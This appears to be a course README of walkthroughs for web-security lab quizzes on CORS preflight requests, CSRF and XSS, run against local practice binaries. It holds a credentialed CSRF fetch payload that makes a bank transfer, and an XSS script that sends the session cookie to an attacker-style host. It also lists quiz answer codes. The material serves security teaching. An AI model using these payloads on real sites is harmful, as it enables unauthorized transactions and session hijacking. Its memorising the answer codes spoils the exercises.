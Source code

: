 # Security

## Concept 06 Preflight Request with CORS Quiz 1

- Download L5-Preflight-Requests-Binary Zip
- Run the executable
- Open a browser in incognito mode and go to `localhost:8080`
- Inspect and click on **Send Request** to make a GET request
- Notice that no preflight request has been made, therefore, **Request is not preflighted**

## Concept 07 Preflight Request with CORS Quiz 2

- Download L5-Preflight-Requests-Binary Zip
- Run the executable
- Open a browser in incognito mode and go to `localhost:8080`
- Inspect and click on **Send Request** to make a POST request
- Notice that a preflight request has been made by the **X-Forwarded-For** header

## Concept 08 Preflight Request with CORS Quiz 3

- Download L5-Preflight-Requests-Binary Zip
- Run the executable
- Open a browser in incognito mode and go to `localhost:8080`
- Inspect and click on **Send Request** to make a PUT request
- Notice that a preflight request has been made by the **PUT** method

## Concept 10 CSRF Quiz

- Download L5-CSRF-Binary Zip
- Run the executable
- Open a browser in incognito mode and go to `bank.127.0.0.1.xip.io:8080`
- Sign in using `super secret password`
- Create an html page that executes a CRF request with the following syntax :

`var body = "recipient=Umbrella+Corp&amount=666";
			fetch("http://bank.127.0.0.1.xip.io:8080/transfer", {
				method: "POST",
				headers: {
					'Content-Length': body.length,
					'Content-Type': 'application/x-www-form-urlencoded'
				},
				credentials: 'include',
				body: body
			});
`

- Run the script above and refresh the bank's page
- You should see in the application window the code `setyourcorsheader`

## Concept 12 XSS Quiz

- Download L5-XSS-Binary Zip
- Run the executable
- Open a browser in incognito mode and go to `http://badwebsite.127.0.0.1.xip.io:8080/`
- Use the following code `<script>fetch('http://badwebsite.127.0.0.1.xip.io:8080/?key='+ document.cookie.slice(document.cookie.indexOf('SESSION_ID')).split('=')[1])</script>`
- - You should see in the application window the code `xkcd_327`